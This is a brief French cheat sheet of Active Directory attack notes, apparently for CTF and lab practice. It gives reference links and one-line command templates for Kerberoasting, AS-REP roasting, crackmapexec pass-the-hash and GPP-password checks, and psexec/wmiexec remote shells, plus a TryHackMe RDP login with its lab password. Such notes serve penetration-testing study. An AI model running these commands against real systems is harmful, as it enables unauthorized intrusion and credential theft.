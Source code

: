 ### Kerberoast

**SPN non vide**

- https://beta.hackndo.com/kerberoasting/
- [GetUserSPNs.py](https://github.com/fortra/impacket/blob/master/examples/GetUserSPNs.py)

### AsRepRoast

**User sans PreAuth**

- https://beta.hackndo.com/kerberos-asrep-roasting/
- https://www.login-securite.com/2022/11/03/analyse-et-poc-de-la-cve-2022-33679/
- ([UAC values](https://jackstromberg.com/2013/01/useraccountcontrol-attributeflag-values/))
- [GetNPUsers.py](https://github.com/fortra/impacket/blob/master/examples/GetNPUsers.py)

[Box Active (HTB)](https://0xdf.gitlab.io/2018/12/08/htb-active.html)

Synchroniser l'horloge:

`sudo ntpdate <ip>`

- `crackmapexec`:
	- check GPPPassword ([share spidering](https://www.infosecmatter.com/crackmapexec-module-library/?cmem=smb-spider_plus): spider_plus): `cme smb <Domain> -u <user> -p <pass> -M gpp_password`
	- check SamAccountName: `crackmapexec smb <ip> -M nopac` & `crackmapexec ldap -d <Domain> -u <user> -p <pass> -M Maq` (max machines à créer)
	- Pass The Hash: `crackmapexec <ip> -u Administrator -H <lmhash:nthash> -x 'whoami'`

### Silver/Golden Ticket

- https://beta.hackndo.com/kerberos-silver-golden-tickets/#pac
- https://github.com/fortra/impacket/issues/1457

### Shell

**Domain.local/Administrator@127.0.0.1**

`psexec.py <Domain>/<user>:<pass>@<DC.local>`
`wmiexec.py <Domain>/<user>@<DC.local> -hashes ':<nthash>'`

### FreeRDP2

(TryHackMe AD Basics)

```bash
xfreerdp /v:10.10.222.63 /u:THM\Mark /p:M4rk3t1ng.21
```

## Crypto

### Documentation

- https://joyofcryptography.com/
- https://cryptobook.nakov.com/
